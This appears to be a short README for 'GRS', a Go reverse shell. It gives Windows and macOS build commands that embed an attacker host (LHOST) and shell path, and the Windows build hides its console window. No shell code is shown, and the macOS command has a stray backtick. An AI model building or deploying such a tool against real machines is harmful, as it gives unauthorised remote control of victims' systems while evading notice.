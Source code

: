 # GRS
### A Golang reverse shell


#### To build:

    Windows:
        $ go build -ldflags "-X 'main.host=**LHOST**' -X 'main.shell=**shell path**' -H windowsgui" "windows/GRS.go"
    
    Darwin:
        $ go build -ldflags "-X 'main.host=`LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"
